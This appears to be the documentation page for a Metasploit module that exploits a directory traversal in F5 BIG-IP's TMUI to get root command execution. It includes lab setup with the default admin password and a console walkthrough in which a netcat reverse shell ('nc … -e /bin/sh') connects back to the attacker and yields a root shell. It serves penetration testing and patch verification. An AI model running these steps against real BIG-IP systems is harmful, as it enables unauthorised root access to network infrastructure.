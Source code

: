 ## Vulnerable Application

### Description

This module exploits a directory traversal in F5's BIG-IP Traffic
Management User Interface (TMUI) to upload a shell script and execute
it as the Unix root user.

Unix shell access is obtained by escaping the restricted Traffic
Management Shell (TMSH). The escape isn't very reliable, so you may
have to run the exploit multiple times. Sorry!

Versions 11.6.1-11.6.5, 12.1.0-12.1.5, 13.1.0-13.1.3, 14.1.0-14.1.2,
15.0.0, and 15.1.0 are known to be vulnerable. Fixes were introduced
in 11.6.5.2, 12.1.5.2, 13.1.3.4, 14.1.2.6, and 15.1.0.4.

Tested against the VMware OVA release of 14.1.2.

### Setup

Download
[BIGIP-14.1.2-0.0.37.ALL-scsi.ova](https://downloads.f5.com/esd/serveDownload.jsp?path=/big-ip/big-ip_v14.x/14.1.2/english/virtual-edition/&sw=BIG-IP&pro=big-ip_v14.x&ver=14.1.2&container=Virtual-Edition&file=BIGIP-14.1.2-0.0.37.ALL-scsi.ova)
and import it into your desired virtualization software.

You _may_ need to log in to the management interface as the `admin` user
to complete system initialization and make the target exploitable. The
default password for the `admin` user is `admin`.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

This executes a Unix command.

### 1

This uses a Linux dropper to execute code.

## Options

### WritableDir

Set this to a writable directory in which files will be dropped.
Defaults to `/tmp`.

## Scenarios

### F5 BIG-IP 14.1.2 in VMware Fusion

```
msf5 > use exploit/linux/http/f5_bigip_tmui_rce
[*] Using configured payload cmd/unix/reverse_netcat_gaping
msf5 exploit(linux/http/f5_bigip_tmui_rce) > options

Module options (exploit/linux/http/f5_bigip_tmui_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      443              yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_netcat_gaping):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command


msf5 exploit(linux/http/f5_bigip_tmui_rce) > set rhosts 172.16.163.145
rhosts => 172.16.163.145
msf5 exploit(linux/http/f5_bigip_tmui_rce) > set lhost 172.16.163.1
lhost => 172.16.163.1
msf5 exploit(linux/http/f5_bigip_tmui_rce) > run

[+] nc 172.16.163.1 4444 -e /bin/sh
[*] Started reverse TCP handler on 172.16.163.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. Target is running BIG-IP 14.1.2.
[*] Creating alias list=bash
[+] Successfully created alias list=bash
[*] Executing Unix Command for cmd/unix/reverse_netcat_gaping
[*] Executing command: nc 172.16.163.1 4444 -e /bin/sh
[*] Uploading /tmp/VaU9ShHKR9vSa4U2q87Tio
[+] Successfully uploaded /tmp/VaU9ShHKR9vSa4U2q87Tio
[*] Executing /tmp/VaU9ShHKR9vSa4U2q87Tio
[*] Command shell session 1 opened (172.16.163.1:4444 -> 172.16.163.145:39434) at 2020-07-07 12:11:02 -0500
[+] Deleted /tmp/VaU9ShHKR9vSa4U2q87Tio
[*] Deleting alias list=bash
[+] Successfully deleted alias list=bash

id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:initrc_t:s0
uname -a
Linux localhost.localdomain 3.10.0-514.26.2.el7.ve.x86_64 #1 SMP Wed Aug 7 08:16:38 PDT 2019 x86_64 x86_64 x86_64 GNU/Linux
```
